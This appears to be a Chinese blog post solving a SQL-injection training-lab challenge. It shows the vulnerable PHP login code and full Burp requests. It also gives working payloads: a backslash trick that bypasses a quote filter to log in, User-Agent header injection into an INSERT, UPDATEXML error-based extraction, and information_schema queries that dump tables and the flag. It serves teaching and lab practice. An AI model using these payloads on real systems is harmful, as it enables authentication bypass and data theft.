 ```yaml
---
layout: post
title: SQL注入之 head 注入与引号绕过
categories: [安全, SQL注入]
description: SQL注入之 head 注入与引号绕过
keywords: SQL注入
---
```


# SQL注入之 head 注入与引号绕过

> http://injectx1.lab.aqlab.cn:81/Pass-07/index.php?action=show_codea

## 0x00 先说结论

1. 使用 `-- gg` 比 `--+` 更通用，GET 中 `+` 会转为 `空格` 但 POST 中不会
2. 其他而言, `HEAD` 注入与参数注入利用方式差别不大。
3. 目前看来 `INSERT` 最难利用的是在判断 字段 **插入位置和值对应类型** 。
    + 使用 `updatexml()` 函数报错 xpath
    + 由于 0x7e 是 ~ ，不属于xpath语法格式， 因此报出xpath语法错误。

## 0x01 分析代码

```php
$username = $_POST['username'];
$password = $_POST['password'];
// 获取 useragent
$uagent = $_SERVER['HTTP_USER_AGENT']; 
$jc = $username.$password; // 这里很重要 @1
$sql = 'select *from user where username =\''.$username.'\' and password=\''.$password.'\'';
// 检测单引号，有则报错 // @1 检查的是 username.password 的组合，其中不能出现 '
if(preg_match('/.*\'.*/',$jc)!== 0){die('为了网站安全性，禁止输入某些特定符号');}
mysqli_select_db($conn,'****');//不想告诉你库名
// 注入点 1
$result = mysqli_query($conn,$sql);
$row = mysqli_fetch_array($result);
$uname = $row['username'];
$passwd = $row['password'];
if($row){
// 注入点2 : 要求能查询到用户信息
$Insql = "INSERT INTO uagent (`uagent`,`username`) VALUES ('$uagent','$uname')";
$result1 = mysqli_query($conn,$Insql);
print_r(mysqli_error($conn));
echo '成功登录';
```

**burpsuite repeat**

```http
POST /Pass-07/index.php HTTP/1.1
Host: injectx1.lab.aqlab.cn:81
Content-Length: 51
Cache-Control: max-age=0
Origin: http://injectx1.lab.aqlab.cn:81
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://injectx1.lab.aqlab.cn:81/Pass-07/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Connection: close

username=123&password=123&submit=%E7%99%BB%E5%BD%95
```

## 0x02 注入

### 0x02.1 判断登录账户，尝试绕过单引号

**1. 使用双 urlencoded**， 并通过时间盲注判断是否成功
```sql
username=1%2527 or if(2>1,sleep(3),null) --+
```

> 失败

**利用2个变量的闭合4个单引号。 使用 反斜线 \ 逃脱**

```sql
-- payload
-- username=admin\&password= or 1=1 -- qwe
```

![excape-quote-login-success.png](/images/post/2020/12/12/excape-quote-login-success.png)

> **注意**:

1. 变量注入不仅仅是一个位置的事情， 在多变量时，遇到反制可以混合利用。
2. `POST` 注入时， `+` 不会默认转换成 `空格`， 因此在注释语句时， 需要使用 `-- gg`。 后者使用场景更为通用。

### 0x02.2 利用 User-Agent 注入

1. **User-Agent** 或者说 **Head** 注入， 更多对应的语句是 **Insert** 或者 **Update** 这类修改语句。且这类语句执行不会有明显的执行。 利用方式常见的有一下两种
    1. **报错注入** : 使用  `updatexml()` 函数强制报错返回信息。
    2. **时间盲注**


#### 猜测利用方式

```sql
-- 猜测原始语句
INSERT INTO uagent (`uagent`,`username`) VALUES ('$uagent','$uname');
UPDATE uagent SET uagent='$uagent' where username='$username';
```

1. `mock-ver01` 模拟 : 构造 SQL 语句测试， 如果插入 `VALUES` 数量不等， 则会出现 SQL 语句错误。
2. `mock-ver02` 模拟 : 所有字段猜测正确执行成功， 可以执行。
    + **注意** 但在实际测试时。 由于时两条语句。 sleep(10) 被跳过了。 因此，或许只能在 一条语句中。
3. `mock-ver03` 模拟 : 字段数量正确，但 `id` 数据类型有误，SQL 通不过， 执行被跳过。


```sql 
-- mock-ver01
INSERT INTO uagent (`uagent`,`username`) VALUES ('Mozilla 5.0' or (select sleep(5))) -- 1 ,'$uname');


-- mock-ver02
INSERT INTO uagent(`username`,`uagent`) VALUES ('Mozilla 5.0', 'gg') ; SELECT sleep(10); -- gg ','$uagent'); 

-- mock-ver03
INSERT INTO uagent(`username`,id) VALUES ('Mozilla 5.0', 'gg') ; SELECT sleep(10); -- gg ','$uagent'); 

```

![mysql-uagent-insert-sql-mock-error-column-not-match.png](/images/post/2020/12/12/mysql-uagent-insert-sql-mock-error-column-not-match.png)


如果原语句是 Update 语句。 

1. `mock sql ver01` 模拟: 虽然可以利用，但是由于 where 语句被屏蔽了导致所有数据被更新。 **三年起步, 三年起步**
2. `mock sql ver01` 模拟: 在 UPDATE 语句上更新 `Where` 条件屏蔽更新。 **狗命要紧**

```sql
-- mock sql ver01
UPDATE uagent SET uagent='Mozila 5.0' ;  (SELECT SLEEP(10)) -- gg ' where username='$username';

-- mock sql ver02
UPDATE uagent SET uagent='Mozila 5.0' WHERE 2<1 ;  (SELECT SLEEP(10)) -- gg ' where username='$username';

```

### 0x02.3 使用 updatexml() 进行报错利用

在本地 mock 语句。 与上面预测的一样， 仅在一条 `Insert` 语句中， 可以使用 ** UPDATEXML 报错注入**。

payload: `mozilla' , UPDATEXML(1,CONCAT(0x7e,database(),0x7e),1))  -- gg `

```sql
INSERT INTO uagent (`uagent`,`username`) VALUES ('mozilla' , UPDATEXML(1,CONCAT(0x7e,database(),0x7e),1))  -- gg ','$username') 

-- 报错信息 1105 - XPATH syntax error: '~zkaq~', Time: 0.002000s
```

![updatexml-error-based-mock.png](/images/2020/12/12/updatexml-error-based-mock.png)


#### 利用

打开 `burpsuite` 抓包利用, 为了方便查看， 此处显示代码 `highlight` 为 `bash`, 并在 利用处使用 **注释及缩进** 高亮处理

+ ua: 错误报错出数据
+ form: 越过账户登录

```bash
POST /Pass-07/index.php HTTP/1.1
Host: injectx1.lab.aqlab.cn:81
Content-Length: 36
Cache-Control: max-age=0
Origin: http://injectx1.lab.aqlab.cn:81
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
    # User-Agent: mozilla' , UPDATEXML(1,CONCAT(0x7e,database(),0x7e),1))  -- gg
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://injectx1.lab.aqlab.cn:81/Pass-07/index.php?action=show_code
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Connection: close
    # username=\&password= or 1=1 ;  -- gg
```

![ua-inject-success.png](/images/2020/12/12/ua-inject-success.png)

1. UPDATEXML() 仅支持常量。 `Only constant XPATH queries are supported`, 因此简单的时间盲注就不可用了。  
    `UPDATEXML(1,CONCAT(0x7e,   (select sleep(10))     ,0x7e),1))`
2. 由于 **布尔盲注** 返回结果是 `1/0` ， `XPATH syntax error: '~1~'` 因此可以使用。
    `UPDATEXML(1,CONCAT(0x7e,   (select 1=1)     ,0x7e),1))`


## 0x03 找 FLAG

探测完了可利用点， 又是明文报错信息。 FLAG 就好找了。

以下省略完成 BURPSUITE 文件， 仅完善可以利用语句替代 ${SQL} 位置。

```bash
User-Agent: mozilla' , UPDATEXML(1,CONCAT(0x7e, (    ${SQL}     ) ,0x7e),1))  -- gg
```


### 0x03.1 **探测表**

```sql
-- 查看当前库所有表
select group_concat(table_name) from information_schema.tables where table_schema=database() 

-- result: flag_head,ip,refer,uagent,user
```

还是比较明显了 `flag_head` 就是我们要找的。

## 0x03.2 **探测字段**

```sql
-- 查询 flag_head 字段名
select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag_head'
-- Id,flag_h1

-- 查询列数量
select count(*) from flag_head
-- result: 3

-- 查询字段值
select group_concat(flag_h1) from flag_head 
-- zKaQ-YourHd,zKaQ-Refer,zKaQ-ipi
```

解题完成


## 0xGG 引用资料

+ [通过两道CTF题学习过滤单引号的SQL注入](https://blog.csdn.net/qq_42181428/article/details/105061424)
+ [sql报错注入： extractvalue 、 updatexml 报错原理](https://developer.aliyun.com/article/692723)
+ [SQL注入实战之报错注入篇 - 0x7e 是什么](https://www.cnblogs.com/c1047509362/p/12806297.html)